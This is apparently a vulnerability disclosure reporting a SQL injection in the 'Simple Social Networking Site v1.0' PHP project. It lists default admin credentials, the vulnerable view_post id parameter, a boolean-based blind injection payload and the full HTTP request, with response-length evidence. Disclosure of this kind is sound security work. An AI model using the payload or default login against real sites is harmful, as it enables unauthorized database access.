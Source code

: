 # Simple Social Networking Site v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15311/simple-social-networking-site-instagram-phpoop-free-source-code.html

Vulnerability File: /sns/admin/?page=posts/view_post&id=

Vulnerability location: /sns/admin/?page=posts/view_post&id=,id

[+] Payload: /sns/admin/?page=posts/view_post&id=2%27%20and%20length(database())%20=6--+ // Leak place ---> id

Current database name: sns_db,length is 6

```sql
GET /sns/admin/?page=posts/view_post&id=2%27%20and%20length(database())%20=6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close
```

When length (database ()) = 5, Content-Length: 27535

![image](https://user-images.githubusercontent.com/54017627/166929149-d05b7d60-ea35-42c7-adf3-2831fe6a1905.png)

![image](https://user-images.githubusercontent.com/54017627/166928929-82e4bf6d-173a-4555-9c2d-2b0e3e0d1442.png)

When length (database ()) = 6, Content-Length: 31610

![image](https://user-images.githubusercontent.com/54017627/166928977-dc4060ac-4750-483d-b51a-972459f6492b.png)

![image](https://user-images.githubusercontent.com/54017627/166928874-e170598a-613b-40ce-a5b1-583191bea745.png)
